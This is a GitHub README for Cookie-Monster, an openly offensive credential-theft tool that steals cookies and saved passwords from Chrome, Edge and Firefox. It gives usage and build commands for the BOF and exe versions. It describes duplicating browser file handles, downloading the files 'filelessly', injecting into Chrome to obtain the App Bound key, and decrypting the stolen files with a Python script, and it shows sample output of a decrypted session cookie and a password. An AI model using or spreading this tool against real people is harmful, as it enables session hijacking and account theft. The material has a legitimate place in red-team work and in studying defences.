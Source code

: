 # Cookie-Monster
Steal browser cookies for edge, chrome and firefox through a BOF or exe! 
Cookie-Monster will extract the WebKit master key and the App Bound key, locate a browser process with a handle to the Cookies and Login Data files, copy the handle(s) and then filelessly download the target.
Once the Cookies/Login Data file(s) are downloaded, the python decryption script can help extract those secrets! Firefox module will parse the profiles.ini and locate where the logins.json and key4.db files are located and download them. A seperate github repo is referenced for offline decryption.  

Chrome 127+ Updates: new cookies now use app bound key to encrypt the cookies. As a result, this makes retrieving the app_bound_key slightly more difficult. Thanks to [snovvcrash](https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824) this process is a lot easier. The catch is your process must be running out of web browser's application directory. i.e. must inject into Chrome or spawn a beacon from the same directory as Chrome. 

## BOF Usage
```
Usage: cookie-monster [ --chrome || --edge || --firefox || --chromeCookiePID <pid> || --chromeLoginDataPID <PID> || --edgeCookiePID <pid> || --edgeLoginDataPID <pid>] 
cookie-monster Example: 
   cookie-monster --chrome 
   cookie-monster --edge 
   cookie-moster --firefox 
   cookie-monster --chromeCookiePID 1337
   cookie-monster --chromeLoginDataPID 1337
   cookie-monster --edgeCookiePID 4444
   cookie-monster --edgeLoginDataPID 4444
cookie-monster Options: 
    --chrome, looks at all running processes and handles, if one matches chrome.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD 
    --edge, looks at all running processes and handles, if one matches msedge.exe it copies the handle to Cookies/Login Data and then copies the file to the CWD 
    --firefox, looks for profiles.ini and locates the key4.db and logins.json file 
    --chromeCookiePID, if chrome PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --chromeLoginDataPID, if chrome PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
    --edgeCookiePID, if edge PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    --edgeLoginDataPID, if edge PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
```

## EXE usage
```
Cookie Monster Example:
  cookie-monster.exe --all 
Cookie Monster Options:
  -h, --help                     Show this help message and exit
  --all                          Run chrome, edge, and firefox methods
  --edge                         Extract edge keys and download Cookies/Login Data file to PWD
  --chrome                       Extract chrome keys and download Cookies/Login Data file to PWD
  --firefox                      Locate firefox key and Cookies, does not make a copy of either file
```
## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```
Decrypt Chrome/Edge Cookies File
```
python .\decrypt.py "\xec\xfc...." --cookies ChromeCookie.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```

Decrypt Chome/Edge Passwords File
```
python .\decrypt.py "\xec\xfc...." --passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```
Decrypt Firefox Cookies and Stored Credentials: <br>
https://github.com/lclevy/firepwd

## Installation
Ensure Mingw-w64 and make is installed on the linux prior to compiling.
```
make
```

to compile exe on windows
```
gcc .\cookie-monster.c -o cookie-monster.exe -lshlwapi -lcrypt32 -lntdll
```

### TO-DO
- update decrypt.py to support firefox based on [firepwd](https://github.com/lclevy/firepwd) and add bruteforce module based on [DonPAPI](https://github.com/login-securite/DonPAPI)

## References
This project could not have been done without the help of Mr-Un1k0d3r and his amazing seasonal videos!
Highly recommend checking out his lessons!!! <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
Decrypt Cookies and Login Data:
https://github.com/login-securite/DonPAPI <br>
App Bound Key Decryption:
https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824 <br>
